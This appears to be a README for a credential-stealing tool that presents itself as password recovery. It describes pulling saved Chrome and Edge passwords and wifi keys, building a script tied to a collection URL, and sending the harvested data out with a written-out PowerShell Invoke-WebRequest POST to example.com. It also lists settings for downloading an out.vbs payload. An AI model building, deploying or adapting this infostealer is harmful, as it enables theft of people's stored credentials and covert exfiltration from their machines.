 # Objective

Allows you to recover passwords stored in Chrome and Edge browsers. It also allows you to recover saved wifi passwords.

# Build

The script to use must be generated with the make command, specifying the URL which will be used to recover the passwords:
    make URL=http://example.com

# Data recovery

The data will be sent to the URL specified during make with the following powershell command:
    Invoke-WebRequest -Uri http://example.com -Method POST -InFile /tmp/data

# Download payload settings

* __URL__ : Direct download URL to the ``out.vbs`` script..
* __STARTUP__ : Not set.
